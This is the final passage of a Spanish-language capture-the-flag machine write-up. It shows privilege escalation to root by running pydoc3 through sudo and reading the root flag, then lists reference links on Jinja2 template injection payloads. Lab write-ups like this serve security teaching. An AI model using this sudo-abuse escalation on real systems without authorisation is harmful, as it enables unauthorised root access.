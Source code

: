 Y volvemos a ser **Root**:
```bash
caldo@CaldoPollo:~$ sudo /usr/bin/pydoc3 -b 8080
.
root@CaldoPollo:/home/caldo# whoami
root
```

Ya solo falta buscar la última flag:
```bash
root@CaldoPollo:/home/caldo# cd /root
root@CaldoPollo:~# ls
root.txt
root@CaldoPollo:~# cat root.txt
...
```
Y con esto, terminamos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://exploit-notes.hdks.org/exploit/web/framework/python/flask-jinja2-pentesting/
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Python.md#jinja2
* https://docs.python.org/es/3.11/library/pydoc.html


<br>

# FIN

<footer id="myFooter">
    <!-- Footer para eliminar el botón -->
</footer>

<style>
        #backToIndex {
                display: none;
                position: fixed;
                left: 87%;
                top: 90%;
                z-index: 2000;
                background-color: #81fbf9;
                border-radius: 10px;
                border: none;
                padding: 4px 6px;
                cursor: pointer;
        }
</style>
